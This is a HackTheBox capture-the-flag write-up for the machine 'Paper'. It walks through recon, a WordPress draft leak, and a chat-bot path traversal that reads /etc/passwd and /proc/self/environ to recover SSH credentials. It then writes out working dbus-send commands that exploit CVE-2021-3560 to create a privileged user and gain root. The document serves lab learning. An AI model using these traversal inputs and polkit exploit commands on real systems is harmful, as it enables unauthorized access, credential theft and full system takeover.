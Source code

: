 # HTB_Paper_writeup
Write-up of the machine "Paper" on HackTheBox. This machine include some LFI(I guess). This machine took me two days to complete and I learned some things interesting.

## Score:
**Points: 20**

## Solution:

## WEB
When we start the machine it give us an IP address (in my case 10.10.11.143). It's a default page of an apache server. We can ran nmap, nikto to see if there's any suspicious stuff.
![nmap_nikto](nmap_nikto_log.png)

Looking at `nikto.log` we can see it captured an "Uncommon header 'x-backend-server', with contents: office.paper". We also could find this 'x-backend-server' using `whatweb` tool.
![whatweb.png](whatweb.png)

Good, now we need to add the value of that header in our `/etc/hosts` file. So that we can access the site http://office.paper.
![host file](hosts_file.png)

Acessing this site, we come across to an Wordpress blog. Going straight to the point, in the post "Feeling Alone!" we can see that nick has commented to Michael(the owner) that he sould "remove the secret content from the drafts" since they are not secure as he thinks. Using Wappalyzer extension (or just going to page source), it's possible to see that the version of wordpress is 5.2.3, which is vulnerable.

![searchsploit.png](searchsploit.png)

The exploit says that if we insert `?static=1` to a wordpress URL, we can leak its secret content. Trying it...
![static.png](static.png)

It give us a secret link to registration to a chat system. So, adding this another subdomain in the hosts file.
![hosts_chat](hosts_chat.png)

Copy and paste the link, it take us to a registration page where we can simply create an account an enter to the chat. 
![rocket_notlogged.png](rocket_notlogged.png) 
![rocket_loged](rocket_logged.png)

Here we are introduced to a bot(recyclops) which can give us some informations to us, but we are going to use only two commands: "file" and "list" (`cat` and `ls` command respectively). We can use the bot by just going to chat in direct message and type "recyclops list", and it will list the files on the present directory. But there's a vulnerability here, if we type "recyclops file ../../../etc/passwd" it'll return to us the file passwd. Great, now we just need to "leverage"!.
![etc_passwd_bot.png](passwd_bot.png)

In this part I didn't know what to do after the LFI, so just googling i found a site which tells how to escalate this. The file /proc/self/environ has some informations of environment of the process. Just type "recyclops ../../../proc/self/environ". We got it! Now we have the credentials of the user "dwight".

![proc_self](proc_self.png) 

Now we can use SSH to connect to dwight terminal. We are in! 

## Privilege escalation

Here we already have the user flag. Now we need to escalate privilege to root. 
![user.txt](user_flag.jpg)

In the user directory it has the linpeas.sh tool, but it won't be so usefull. There's a file called test.sh, that give us an clue of what we will explore. That vulnerability has an CVE -- `CVE-2021-3560` --. That script will not do, but there's a video uploaded by the github itself that explain this [CVE](https://www.youtube.com/watch?v=QZhz64yEd0g). I'll spare you the explanations of how the vulnerability works, as the video does it much better.
![head_teste](head_test.png)

We're gonna use these payloads in sequence;

```
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:boris string:"Boris Ivanovich Grishenko" int32:1 & sleep 0.008s ; kill $!
----------------------------------------------
id boris --> verify if the user has been created
----------------------------------------------
openssl passwd -5 iaminvincible! --> create a hash for the password "iaminvincible!"
----------------------------------------------
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1002 org.freedesktop.Accounts.User.SetPassword string:'$5$Fv2PqfurMmI879J7$ALSJ.w4KTP.mHrHxM2FYV3ueSipCf/QSfQUlATmWuuB' string:GoldenEye & sleep 0.008s ; kill $!
```

Note that it may fails sometimes, it's normal, just persist. After run the commands above, just type `su - boris` and type the password, once loged in just type `sudo su`. And We Got It! Now submit the root flag and root the machine.
![root.txt](root_flag.jpg)

--If you have any questions about the vulnerability exploit, visit the link that I left linked. 

## References:

https://www.youtube.com/watch?v=QZhz64yEd0g

https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/

https://infosecwriteups.com/leveraging-lfi-to-rce-in-a-website-with-20000-users-129050f9982b
